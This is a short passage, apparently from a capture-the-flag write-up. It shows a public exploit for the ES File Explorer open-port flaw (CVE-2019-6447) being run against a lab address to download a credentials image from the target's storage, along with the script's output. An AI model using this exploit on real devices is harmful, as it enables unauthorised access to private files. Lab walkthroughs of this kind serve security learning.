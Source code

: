 Get that picture using `getFile` command and file location, then rename `.dat` file to `.jpg`.
```bash
➜  python3 exploit.py getFile 10.10.10.247 /storage/emulated/0/DCIM/creds.jpg

==================================================================
|    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |
|                Coded By : Nehal a.k.a PwnerSec                 |
==================================================================

[+] Downloading file...
[+] Done. Saved as `out.dat`.

➜  mv out.dat creds.jpg  
```
